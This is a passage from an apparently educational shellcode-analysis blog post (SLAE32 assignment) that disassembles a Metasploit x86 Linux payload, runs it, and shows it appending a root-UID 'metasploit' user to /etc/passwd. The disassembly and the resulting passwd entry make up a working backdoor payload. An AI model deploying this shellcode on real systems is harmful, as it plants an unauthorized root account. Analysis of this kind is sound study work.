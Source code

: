     00000031  6C                insb
    00000032  6F                outsd
    00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
    0000003B  736A              jnc 0xa7
    0000003D  3470              xor al,0x70
    0000003F  3449              xor al,0x49
    00000041  52                push edx
    00000042  633A              arpl [edx],di
    00000044  303A              xor [edx],bh
    00000046  303A              xor [edx],bh
    00000048  3A2F              cmp ch,[edi]
    0000004A  3A2F              cmp ch,[edi]
    0000004C  62696E            bound ebp,[ecx+0x6e]
    0000004F  2F                das
    00000050  7368              jnc 0xba
    00000052  0A598B            or bl,[ecx-0x75]
    00000055  51                push ecx
    00000056  FC                cld
    00000057  6A04              push byte +0x4
    00000059  58                pop eax
    0000005A  CD80              int 0x80 //
    0000005C  6A01              push byte +0x1
    0000005E  58                pop eax
    0000005F  CD80              int 0x80 //


####  <span style="color:#01416C;"> Execution of the shellcode </span>


The first thing we will try is to exploit the executable to see the result:

<img src="/assets/slae32-img/assignment5/assignment5.1.PNG" alt="drawing" style="width:900px;"/>

***Note: Be careful with unknown shellcodes.***

And when we search into the /etc/passwd file, we can see that the user has been well added as we can see:

    metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh

Then we will look into more details about this shellcode.

####  <span style="color:#01416C;"> 1 - setreuid </span> 

The first instructions passed are as follows:
